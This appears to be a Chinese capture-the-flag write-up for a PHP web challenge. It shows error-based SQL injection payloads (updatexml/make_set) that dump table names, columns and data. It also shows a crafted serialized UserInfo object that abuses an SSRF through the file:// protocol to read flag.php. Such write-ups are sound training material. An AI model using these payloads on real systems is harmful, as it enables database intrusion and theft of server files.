 # 考察知识点：

1.sql报错注入

2.ssrf搭配序列化

3.robots.txt

4.file:///协议



# 1.访问robots.txt

提示存在/user.php.bak

![](images/72B39B1C0ED14DDCB968DEE590DB7BDCclipboard.png)

# 2.user.php

```javascript
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```



get方法，明显存在ssrf漏洞，__construct也有可能存在序列化



同时访问flag.php也存在flag.php文件，所以大体思路就是ssrf访问flag.php文件得到flag



# 3.发现view.php存在sql注入漏洞

有报错，所以考虑报错注入，注入没有任何限制，注入得到



## 3.1.查表名

?no=1 and updatexml(1,make_set(7,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#

![](images/5F5430D49C0C4854BCA3B330672C7588clipboard.png)



## 3.2.查字段

?no=1 and updatexml(1,make_set(7,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)#

![](images/F7D5C03BA44440D9BF8A2533F90600F7clipboard.png)



## 3.3.查数据

?no=1 and updatexml(1,make_set(7,'~',(select data from users)),1)#

![](images/DA1AC6E0DDA340B1BD378E5E1FF07416clipboard.png)



# 4.得到的data字段的数据为序列化数据

此时可以大体推断view.php从数据库中读取序列化数据然后反序列化时触发user.php中的__construct函数赋值，并显示出来



# 5.结合user.php中的ssrf漏洞，此时可以大体明白攻击思路

## 5.1 构造序列化数据

## 5.2sql注入漏洞查询触发，构造的序列化数据，得到flag.php文件的内容



# 6.构造序列化数据

```javascript
<?php


class UserInfo
{
    public $name = "s";
    public $age = 10;
    public $blog = "file:///var/www/html/flag.php";
    //public $blog=http://afd9e3f3-e747-4959-b506-f86d8accc887.node3.buuoj.cn/flag.php
}

$u=new UserInfo();
echo serialize($u);
```

此处注意，需要使用file://协议

使用$blog=http://afd9e3f3-e747-4959-b506-f86d8accc887.node3.buuoj.cn/flag.php 无法触发ssrf漏洞





# 7.触发构造的序列化数据

![](images/2F17505F57C4427A80E43E85D1678BAEclipboard.png)



base64解码即可得到flag









